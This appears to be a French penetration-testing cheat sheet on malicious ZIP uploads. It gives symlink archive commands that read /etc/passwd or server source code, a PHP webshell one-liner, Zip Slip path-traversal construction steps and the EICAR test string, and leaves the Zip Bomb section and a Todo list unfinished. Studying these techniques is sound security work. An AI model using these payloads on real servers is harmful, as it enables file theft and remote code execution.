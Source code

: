 # ZIP

**Facteur de risque** : Information Disclosure, RCE via LFI, DoS

**Extension** : .zip

**Type MIME** : application/zip

**Description** : Le **ZIP** est un format de fichier permettant l'archivage *(utilisation d'un seul fichier pour stocker plusieurs fichiers)* et la compression de données *(diminution de l'espace occupé sur le support numérique)* sans perte de qualité.
Si un fichier ZIP uploadé est **décompressé** ensuite par le serveur, plusieurs attaques peuvent être effectué:

## Sommaire

- Information Disclosure : Zip Symlink
- RCE via LFI : Décompression dans d'autres dossiers / Zip Slip
- DoS : Zip Bomb
- EICAR : Anti Malware Testfile

## Zip Symlink

Les archives peuvent contenir des liens symboliques. Un **lien symbolique** est un fichier spécial qui le lie à un autre fichier. En uploadant un ZIP contenant un lien symbolique qui sera décompressé par la suite, on peut accéder au fichier lié. Cette exploit permet donc de récupérer des **fichiers présents** sur le serveur.

### Pré-requis

- Le fichier ZIP doit être dézippé après avoir été uploadé.

- Pourvoir accéder à ces fichiers

### Attaque

1. Il faut créer d'abord le lien symbolique sur le fichier visé (ici /etc/passwd):

```shell
ln -s /etc/passwd passwd.txt
```

2. Puis d'archiver ce fichier (ajoutez *-r* pour archiver un dossier):

```shell
zip --symlinks passwd.zip passwd.txt
```

On peut ainsi récupérer le code source par exemple :

```shell
ln -s /var/www/html/index.php index.php
```

## LFI : Décompression dans d'autres dossiers / Zip Slip

Les cybercriminels peuvent créer des archives Zip pour lancer des attaques par traversée de chemin afin **d’écraser des fichiers** importants sur les systèmes affectés, soit en les détruisant, soit en les remplaçant par d’autres fichiers malveillants.

Cette méthode permet notamment de **d'échapper** au répertoires de téléchargement sécurisé, en remontant dans les répertoires non protégés pour pouvoir déposer un webshell par exemple.

### Pré-requis

- Le fichier Zip doit être dézippé après avoir été uploadé.

- Pourvoir accéder à ces fichiers

### Attaque

1. (Facultatif) Aller dans le répétoire /tmp :

```shell
cd /tmp
```

2. Récupérer un webshell (ici en PHP) :

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

3. Puis rentrer ce code :

```shell
for i in `seq 1 10`;do FILE=$FILE"xxA"; cp webshell.php $FILE"cmd.php";done
```

4. Puis compresser :

```shell
zip cmd.zip xx*.php
```

5. Utiliser un éditeur hexadécimal pour changer les xxA en ../

https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/

## Eicar : Anti Malware Testfile

Le fichier de test **Eicar** est une chaîne de caractères, destiné à tester le bon fonctionnement des logiciels antivirus. Tout logiciels antivirus qui prend en charge le fichier de test Eicar devrait le détecter :

```
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```

**eicar_com.zip** contient le fichier de test Eicar. Un bon logiciel d'antivirus doit détecter un "virus", même à l'intérieur d'une archive.

**eicarcom2.zip** contient l'archive du fichier de test Eicar. Ce fichier peut être uploadé pour voir si le logiciel d'antivirus vérifie les archives à plus d'un niveau de profondeur.

## DoS : Zip Bomb

### Pré-requis

- Le fichier Zip doit être dézippé après avoir été uploadé.

## Reference

- ZIP :
  
  - [ZIP (format de fichier) — Wikipédia](https://fr.wikipedia.org/wiki/ZIP_(format_de_fichier))
  
  - https://book.hacktricks.xyz/pentesting-web/file-upload

- LFI : ZIP Symlink
  
  - [Challenges/Web - Serveur : File upload - ZIP [Root Me : plateforme d'apprentissage dédiée au Hacking et à la Sécurité de l'Information]](https://www.root-me.org/fr/Challenges/Web-Serveur/File-upload-ZIP)

- LFI : Décompression dans d'autres dossiers / ZIP Slip
  
  - [Compressed file upload and command execution &#8211; Silent Signal Techblog](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)
  
  - [GitHub - ptoomey3/evilarc: Create tar/zip archives that can exploit directory traversal vulnerabilities](https://github.com/ptoomey3/evilarc)
  
  - [GitHub - snyk/zip-slip-vulnerability: Zip Slip Vulnerability (Arbitrary file write through archive extraction)](https://github.com/snyk/zip-slip-vulnerability)

- Eicar : Anti Malware Testfile
  
  - [Anti Malware Testfile](https://www.eicar.org/?page_id=3950)

## Todo

- Pour les autresls archives.
- Ecrire un script pour pourvour décompresser dans d'autres dossiers
  [GitHub - ptoomey3/evilarc: Create tar/zip archives that can exploit directory traversal vulnerabilities](https://github.com/ptoomey3/evilarc)
- https://www.blackhat.com/docs/us-16/materials/us-16-Marie-I-Came-to-Drop-Bombs-Auditing-The-Compression-Algorithm-Weapons-Cache.pdf
